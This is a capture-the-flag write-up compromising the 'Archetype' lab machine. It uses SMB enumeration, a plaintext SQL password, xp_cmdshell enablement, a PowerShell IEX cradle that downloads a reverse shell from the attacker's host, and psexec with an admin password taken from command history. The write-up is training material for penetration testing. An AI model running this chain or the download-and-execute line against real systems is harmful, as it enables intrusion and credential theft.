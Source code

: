 # Archetype

- Machine IP: 10.10.10.27

## nmap scan

```bash
[exyss@exyss Archetype]$ nmap -sC -sV -p1-1024 10.10.10.27 -oN nmap/initial
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h39m15s, deviation: 4h02m32s, median: 19m13s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-01T03:49:09-07:00
```

As we can see, our target is running an an SQL service and an SMB service (Samba)

## SMB Service security analysis

```powershell
[exyss@exyss Archetype]$ smbclient -L 10.10.10.27 -N
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

We found an existing sharename without password protection. We can try to access this sharepoint using 
`smbclient //10.10.10.27/backups -N`, searching for files to download (Samba can be interacted with using FTP commands, in this case the GET command)q

```bash
[exyss@exyss Archetype]$ smbclient //10.10.10.27/backups -N
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

                10328063 blocks of size 4096. 8248285 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (3.4 KiloBytes/sec) (average 3.4 KiloBytes/sec)
smb: \> exit
```

The downloaded file contains the following text:

```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

As we can see, there are two interesting plaintext data regarding the SQL user `ARCHETYPE\sql_svc` and it's password `M3g4c0rp123`.

## Accessing the SQL service

Once we have found the credentials, we can try accessing the SQL service by using Impacket's [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) script and trying to run a query to find out if our current user has admin priviledges:

```sql
[exyss@exyss Archetype]$ python mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands

SQL> SELECT IS_SRVROLEMEMBER('sysadmin')
```

Looks like our user has the system administator permissions, meaning that we have the highest SQL  permissions possible. Knowing this, we can enable XP shell commands directily through the SQL server:

```sql
SQL> EXEC sp_configure 'show advanced options', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.

SQL> RECONFIGURE

SQL> sp_configure
name                                      minimum       maximum   config_value     run_value   

-----------------------------------   -----------   -----------   ------------   -----------   

access check cache bucket count                 0         65536              0             0   

.
.
.

SQL> EXEC sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.

SQL> RECONFIGURE
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL> 
```

Looks like the user that started this SQL server is the same that we already have, however this user doesn't have admin priviledges on the machine, but only on the SQL service.

## Obtaining a reverse shell

Next, we can try to obtain a reverse shell, giving us the ability to run commands on the target machine.

To do this, we have to first write (or find on the Internet :P) a [PowerShell script](scripts/reverse-shell.ps1) that can bounce us back a shell on our machine.
ATTENTION: remember to change the script with YOUR machine's ip address! (In my example this will be 10.10.14.126)

Once we got the script, we can fire up a simple Python server on port 4444 using `python -m http.server 4444` and a netcat listener on port 443 using `sudo nc -lvnp 443`.

Then, we have to change our firewall rules in order to forward the incoming traffic, enabling the communication between our netcat listener (which will receive the bouncing reverse shell) and the server.
We can do this by using UFW and running `ufw allow from 10.10.10.27 proto tcp to 0.0.0.0 port 4444,443`

Then, we have to connect again to the SQL service and run the following command, which will execute our reverse shell script on the target machine:

```sql
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.126:4444/scripts/reverse-shell.ps1\");"
```

Our netcat server will have received the reverse shell, meaning now we have full access to the sql_svc user's files. We can find the flag in `C:\Users\sql_svc\Desktop\user.txt`

## Priviledge escalation

Since this user account is also a service account, there probably are files that include frequently used commands or credentials. We can find one in: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt`:

```powershell
$ type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Now that we have found the admin password, we can use Impacket's [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) script to spawn an admin shell, access the admin's desktop and get the flag:

```powershell
[exyss@exyss Archetype]$ python https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py administrator@10.10.10.27
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file iPQjYOen.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service dmUb on 10.10.10.27.....
[*] Starting service dmUb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
```